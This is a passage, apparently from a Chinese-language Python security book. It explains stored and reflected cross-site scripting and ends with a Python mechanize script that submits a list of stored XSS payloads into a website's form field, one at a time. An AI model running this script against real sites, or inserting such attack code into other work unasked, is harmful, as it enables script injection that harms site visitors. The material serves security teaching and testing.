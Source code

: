 1.  制作所有制作的查询的列表

1.  向网站应用一个简单的查询，并观察网站的响应

1.  使用`尝试不成功`的响应来回应不成功的尝试

1.  逐一应用列出的查询，并通过程序匹配响应

1.  如果响应不匹配，则手动检查查询

1.  如果看起来成功了，那么停止程序

上述步骤仅用于显示制作的查询是否成功。只有通过查看网站才能找到所需的结果。

# 学习跨站脚本

在这一部分，我们将讨论**跨站脚本攻击**（**XSS**）。XSS 攻击利用动态生成的网页中的漏洞，当未经验证的输入数据包含在发送到用户浏览器以进行渲染的动态内容中时，就会发生这种情况。

跨站攻击有以下两种类型：

+   持久性或存储型 XSS

+   非持久性或反射型 XSS

# 持久性或存储型 XSS

在这种类型的攻击中，攻击者的输入被存储在 Web 服务器中。在一些网站上，您会看到评论字段和消息框，您可以在其中写下您的评论。提交评论后，您的评论会显示在显示页面上。试着想象一种情况，您的评论成为 Web 服务器的 HTML 页面的一部分；这意味着您有能力更改网页。如果没有适当的验证，那么您的恶意代码可以存储在数据库中，当它反映回网页时，会产生不良影响。它被永久存储在数据库服务器中，这就是为什么它被称为持久性。

# 非持久性或反射型 XSS

在这种类型的攻击中，攻击者的输入不会存储在数据库服务器中。响应以错误消息的形式返回。输入是通过 URL 或搜索字段给出的。在本章中，我们将处理存储型 XSS。

现在，让我们看一下 XSS 攻击的代码。代码的逻辑是向网站发送一个利用。在以下代码中，我们将攻击表单的一个字段：

```py
import mechanize
import re 
import shelve
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
#br.set_handle_redirect(False)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)
s = shelve.open("mohit.xss",writeback=True)
for form in br.forms():
  print form

att = raw_input("Enter the attack field ")
non = raw_input("Enter the normal field ")
br.select_form(nr=0)

p =0
flag = 'y'
while flag =="y":
  br.open(url)
  br.select_form(nr=0)
  br.form[non] = 'aaaaaaa'
  br.form[att] = s['xss'][p]
  print s['xss'][p]
  br.submit()
  ch = raw_input("Do you continue press y ")
```
